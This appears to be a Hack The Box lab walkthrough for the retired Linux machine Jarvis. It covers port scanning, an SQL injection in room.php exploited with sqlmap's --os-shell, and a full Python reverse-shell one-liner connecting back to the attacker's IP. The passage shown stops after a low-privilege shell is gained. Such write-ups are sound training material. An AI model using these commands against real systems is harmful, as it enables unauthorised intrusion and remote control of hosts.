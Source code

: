 # Hack The Box - Jarvis walkthrough
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box. </br>
It is a Linux based machine. </br>
This machine has a static IP address <10.10.10.143> </br>
It was a nice bit easy machine. </br>
</br>
You have to found **user.txt** and **root.txt** flag. </br> 

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine. </br>

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this </br>
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php** </br>

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** `<sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell>`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sqlmap_1.png)

And we got the shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener </br>

* `<python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'>`

**We got the shell but it is not the proper user**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/conn.png)

